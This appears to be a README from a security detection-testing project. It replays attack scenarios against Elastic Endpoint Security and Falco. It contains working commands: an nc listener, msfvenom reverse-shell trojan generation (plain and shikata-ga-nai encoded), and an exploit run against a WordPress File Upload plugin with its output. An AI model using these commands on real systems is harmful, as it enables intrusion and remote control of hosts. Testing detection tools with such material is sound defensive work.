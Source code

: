 This section shows the command executed for the use cases that appeared in the slides in order to replay them easier. 

# Elastic Endpoint Security tests

## Generating a basic trojan with metasploilt

Attacker side

```bash
nc -lnvp 9001
```

Generation of the payload

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=9001 -f elf -o /home/user/trojan
```
where ``ip`` is the ip of the host where the attacker is listening. 


## Generating a shikata-ga-nai encoded trojan with Metaspoilt

Attacker side

```bash
nc -lnvp 9001
```

Generation of the payload

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=9001 -b "\x00" -f elf -o /home/user/trojan
```
where ``ip`` is the ip of the host where the attacker is listening. 

# Falco tests

## Realistic scenario of an infiltration inside a Kubernetes Cluster

The tests realised for testing Falco agent follow themeselves and simulate a realistic attack into a Kubernetes Cluster, from the intrusion, persistence, discovery and privilege escalation. Each test can be mapped to one of the element of the Microsoft Threat Matrix in a Kubernetes environement. [K8S threat matrix](https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/). 

## Use case 1 : exploiting vulnerable wordpress File Upload Plugin to upload a reverse shell

```bash
borie@pgp-branche:~$ pip install urlparse2 
borie@pgp-branche:~$ pip install requests
borie@pgp-branche:~/exploit$ python exploit.py http://142.93.65.231/2021/09/13/hack-me-if-you-can/ / 
[+] admin-ajax.php: http://142.93.65.231//wp-admin/admin-ajax.php
[+] admin-ajax.php should be fine, keep testing
[+] Plugin url: http://142.93.65.231/2021/09/13/hack-me-if-you-can/
[+] Using payload: ../plugins/wp-file-upload/lib/RcE-for-Th3-WiN.txt
[+] Retrived nonce parameter: 3b875bc68c
[+] Retrived params_index parameter: rmFyb4RaMMeWm1WF
[+] Retrived session_token parameter: 4091528856140e0f4c3da71.68593495
[+] Stage 1 success
```